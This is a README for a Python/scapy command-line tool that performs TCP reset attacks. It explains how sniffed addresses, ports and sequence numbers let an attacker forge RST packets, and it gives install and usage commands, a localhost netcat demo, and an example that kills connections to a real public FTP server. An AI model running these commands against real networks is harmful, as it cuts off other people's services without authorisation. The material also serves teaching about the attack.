 RSTconn
-------

A TCPKill is a utility that implements a **TCP reset attack** for IPv4 and IPv6 written in python and scapy.

RESET is a flag in TCP packets to indicate that the connection is not longer working.
If any of the two participants in a TCP connection send a packet
contains such a RESET flag, the connection will be closed immediately.

Thus it can be use to attack TCP connections once the attacker can forge
TCP packets from any of the two parties if he or she know their IPs, ports
and the sequence number of current TCP connection.

The attack can be used to make certain users to fail to use certain
network services based on TCP if we know the information above.

In practice, we should eavesdrop the victims’ communications to get
their IPs, ports and the sequence number.

You can do it by filtering the TCP packets and find the newest packets that we want to attack.

We can sends a TCP packet with RESET flag and the IPs and ports of
source and destination are sniffed from victims. What’s more, the
sequence number will increase in TCP communication, its value should
be equal or lager than the ack value from the lastest packet the sender
received and in the window of receiver. So we should update it.
To ensure successful, we can send lots of packets with different
sequence number which is larger than the sniffed ack field.

Setup
-----

````
pip install rstconn
````

Usage
-----

````
rstconn kills network connections.

optional arguments:
  -h, --help            show this help message and exit
  --iface {lo,enp0s25,lxcbr0,docker0,br-d316e57def52,vethd4f41f0,veth6fa5336, ...}, -i {...}
                        Interface where to listen to
  --server-ip SERVER_IP, -sip SERVER_IP
                        IPv4 or hostname
  --client-ip CLIENT_IP, -cip CLIENT_IP
                        IPv4 or hostname
  --server-port SERVER_PORT, -p SERVER_PORT
                        Server port
  --packet-count PACKET_COUNT, -pc PACKET_COUNT
                        listen for a maximum of N packets
  --seq-jitter SEQ_JITTER, -sj SEQ_JITTER
                        Set seq_jitter to be non-zero in order to prove to yourself that the
                        sequence number of a RST segment does indeed need to be exactly equal
                        to the last sequence number ACK-ed by the receiver
  --ignore-syn, -is     if a Packet has SYN flag, not sending RST
  --window-size WINDOW_SIZE, -ws WINDOW_SIZE
                        Window size
  -d {CRITICAL,ERROR,WARNING,INFO,DEBUG}, --debug {CRITICAL,ERROR,WARNING,INFO,DEBUG}
                        Debug level, see python logging; defaults to INFO if omitted
  -m, --monitor         Just sniff traffic without sendin RST
  -v, --version         Print version and exit

````

RSTconn listens for the matching connections and than sends a
number of SYN/ACK and RST packets to the client to get the connection be killed.

The number of packets is configurable by `--packet-count`, `--iface` and
`--server-ip` and `--server-port` are related to the local server port to be listen on.

````
rstconn -i lo --server-ip 127.0.0.1 --server-port 8000 --packet-count 50
````

Demo
----

````
apt install netcat
````

- Setup TCP connection. In one terminal window run `nc -nvl 8000` to set up a server
- In another terminal window run `nc 127.0.0.1 8000` to connect to the server
- In a third window run `rstconn` to run our sniffing program

You should see the sniffing program log some output, send a RST packet, and the nc connection should be broken.

If you want to test rstconn in IPv6, use instead:

- `nc ::1 8000`
- `nc -nvl ::1 8000`
- `rstconn -i lo --server-ip "::1" --server-port 8000 -pc 33`

Usage examples
--------------

Reset connections to ftp.gnu.org
````
rstconn -i enp0s25 --server-ip ftp.gnu.org -pc 33
````

on the client side we'll see
````
ftp> ls
421 Service not available, remote server has closed connection
````

Credits
-------

- https://gist.github.com/spinpx/263a2ed86f974a55d35cf6c3a2541dc2
- https://github.com/robert/how-does-a-tcp-reset-attack-work


References
----------

- Watson, P.: Slipping in the Window: TCP Reset attacks. (2004)
